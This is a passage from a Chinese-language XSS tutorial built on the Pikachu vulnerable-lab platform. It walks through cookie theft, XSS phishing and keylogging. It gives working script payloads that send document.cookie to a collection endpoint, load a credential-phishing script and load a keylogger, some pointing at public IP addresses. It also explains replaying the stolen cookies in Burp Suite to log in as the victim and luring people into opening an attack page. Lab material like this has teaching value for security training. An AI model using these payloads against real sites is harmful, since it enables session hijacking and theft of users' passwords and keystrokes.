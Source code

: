 ```javascript
'"><script>document.location = 'http://127.0.0.1/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
<script>document.location = 'http://121.199.162.86:8889/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
//通过document.location实例进行重定向到http://192.168.1.1/pikachu/pkxss/xcookie/cookie.php?cookie=
```

打开pikachu->管理工具->XSS后台，登录后点击“cookie搜集”。

### 反射型XSS（POST）获取cookie

```javascript
Window.onload;//当浏览器加载完页面所有内容后自动触发执行

POST攻击利用页面：~\phpstudy_pro\phpstudy_pro\WWW\pikachu\pkxss\xcookie\post.html
```

将post.html中的ip地址和xss路径进行修改，引导别人打开这个HTML文件，打开后就自动发送cookie信息到xss后台。

#### **使用cookie登录**

打开正常登录后的网址http://pikachu/vul/xss/xsspost/xss_reflected_post.php，使用Burpsuite拦截，将cookie改为xss后台收集到的cookie，放行后即可登录成功。

### XSS钓鱼演示

方法有很多，但主要看页面搭建的好不好，是不是和正常网站页面一样，能不能骗到别人。只要有XSS漏洞的地方，都可以钓鱼。

以pikachu的存储型xss为例：

```
钓鱼攻击利用页面：~\phpstudy_pro\phpstudy_pro\WWW\pikachu\pkxss\xfish\fish.php

<script src="http://pikachu/pkxss/xfish/fish.php"></script>
<script src="http://121.199.162.86:8889/pkxss/xfish/fish.php"></script>
<script src="http://118.89.145.124/pkxss/xfish/fish.php"></script>
```

打开fish.php，修改ip地址为xss后台。

fish.php代码内容为弹出一个对话框，将用户在对话框中输入的用户名和密码发送到攻击者的xfish.php文件中，保存到攻击者数据库中。

> 钓鱼页面在输入账号密码后经常会提示登录超时等，需要重新登录，网站也会发生变化。

> phpstudy钓鱼演示，认证失败。
>
> **PHP的HTTP认证机制仅在PHP以Apache模块方式运行时才有效，因此该功能不适用于CGI版本。**
>
> **解决方案：重新部署环境**
>
> https://mp.weixin.qq.com/s/NR6tAA8vKexBZ6KXLQXxhA

### XSS获取键盘记录演示

```javascript
'"><script src="http://127.0.0.1/pikachu/pkxss/rkeypress/rk.js"></script>
<script src="http://121.199.162.86:8889/pkxss/rkeypress/rk.js"></script>
<script src="http://118.89.145.124/pkxss/rkeypress/rk.js"></script>
```
